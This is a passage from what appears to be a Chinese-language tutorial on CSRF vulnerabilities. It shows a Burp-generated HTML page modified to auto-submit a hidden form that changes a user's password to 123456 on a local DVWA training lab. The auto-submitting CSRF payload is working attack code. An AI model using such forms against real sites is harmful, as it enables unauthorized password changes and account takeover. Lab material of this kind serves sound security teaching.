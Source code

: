    >    ![image-20210903185700810](../images/13_CSRF漏洞/image-20210903185700810.png)
   >
   > 3. 完善一下Burp生成的HTML代码，让表单自动提交
   >
   >    ~~~html
   >    <html>
   >      
   >      <body>
   >      <script>history.pushState('', '', '/')</script>
   >        <form action="http://127.0.0.1:8081/range/dvwa/vulnerabilities/csrf/">
   >          
   >          <input type="hidden" name="password&#95;new" value="123456" />
   >          <input type="hidden" name="password&#95;conf" value="123456" />
   >          <input type="hidden" name="Change" value="Change" />
   >          
   >        </form>
   >        <script> document.forms[0].submit(); </script>	
   >      </body>
   >    </html>
   >    ~~~
